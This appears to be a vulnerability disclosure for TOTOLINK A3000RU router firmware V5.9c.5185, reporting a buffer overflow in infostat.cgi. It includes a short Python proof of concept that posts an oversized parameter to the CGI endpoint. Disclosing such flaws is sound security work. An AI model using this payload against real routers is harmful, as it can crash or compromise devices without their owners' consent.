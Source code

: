 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://totolink.com.my/products/a3000ru/

## Affected version

A3000RU_Firmware V5.9c.5185

## Vulnerability details

Parameters in infostat.cgi are not filtered, causing a buffer overflow vulnerability. The fread function copies data directly to the V11 register without filtering, causing a buffer overflow

![image-20240720222359632](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240720222359632.png)

## POC

```python
import requests
data = {'a':'a'*0x5000}
res = requests.post("http://127.0.0.1/cgi-bin/infostat.cgi", data=data)
print(res.content)
```

![image-20240720222935875](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240720222935875.png)

